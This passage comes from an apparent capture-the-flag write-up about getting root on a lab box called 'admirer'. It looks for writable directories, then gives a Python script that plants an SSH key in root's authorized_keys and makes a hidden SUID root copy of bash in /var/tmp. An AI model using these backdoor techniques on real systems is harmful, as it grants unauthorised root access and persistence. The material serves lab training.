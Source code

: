 Playing around with this box for a few minutes, it becomes clear that `/tmp` and `/home/waldo` are being cleared of files I create every couple minutes. Those aren’t very OPSEC smart places to be working anyway. I could look at `/dev/shm`, but it’s mounted as `noexec`:

```

waldo@admirer:/opt/scripts$ mount | grep shm
tmpfs on /run/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=1019460k)

```

I can look for writable directories:

```

waldo@admirer:/opt/scripts$ find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'
/var/lib/php/sessions
/var/tmp
/tmp
/home/waldo
/home/waldo/.nano

```

`/var/tmp` seems like a good option (`/home/waldo/.nano` would have been good too).

#### What

If this works, root is going to run some Python code for me. My first instinct is to use a reverse shell, but that might actually have issues. If the process errors out or ends, my session could die with it (it actually would work fine in this case). There are tons of options here, but I’ll show two.
- Copy `/bin/bash` and set it owned by root and SUID.
- Write my public SSH key into `/root/.ssh/authorized_keys`.

I’ll write a Python3 script that does both of those on my local box:

```

#!/usr/bin/python3

import os

def make_archive(a,b,c):
    pass

os.system("mkdir -p /root/.ssh; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFFzFsH+WX95lqeCJkOp6cRZufRzw8pGqdoj1q4NL9LmPvtDCiGxsDb5D+vF6rXMrW0cqH3P4kYiTG8+RLrolGFTkR+V/2CXDmABQx5T640fCH77oiMF8U9uoKGS+ow5vA4Vq4QqKFsu+J9qn/sMbLCJ/      874tay6a1ryPJdtjj0SxTems1p2WgklYiZZKKscmYH4+dMtHMdQAKv3CTpWbSE7De4UvAUFvxiKS1yHLh8QF5L0YCUZ42pNtzZ4CHPRojxJZKbOHhTOJms4CLi3CXN/ZEpPijt0mJaGrxnA3oOkOFIscqoeXYFybTs82KzKqwwP4Y6ACWJwk1Dqrv37I/L+9YU/8Rv5b+r0/c1p9lZ1pnnjRt46g/              kocnY3AZxcbmDUHx5wAlsNwK8s5Aw+IOicBYCOIv2KyXUT61/lW2iUTBIiMh0yrqehLfJ7HS3pSycQnWdVPoRbmCfvuJqQGyaJMu+ceqYqpwHEBoUlIjKnSHF30aHKL5ALFREEo1FCc= root@kali' >> /root/.ssh/authorized_keys")
os.system('cp /bin/bash /var/tmp/.0xdf; chown root:root /var/tmp/.0xdf; chmod 4755 /var/tmp/.0xdf')

```
